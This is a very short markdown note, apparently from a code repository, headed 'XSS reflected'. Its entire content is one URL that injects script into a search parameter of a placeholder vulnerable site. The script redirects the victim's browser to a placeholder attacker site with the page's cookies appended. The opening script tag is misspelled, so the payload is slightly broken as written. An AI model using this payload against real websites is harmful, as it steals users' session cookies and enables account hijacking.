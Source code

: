 # XSS reflected

http://<vul_website>/search?query=<scrip>window.location='<monsite>'+document.cookie</script>
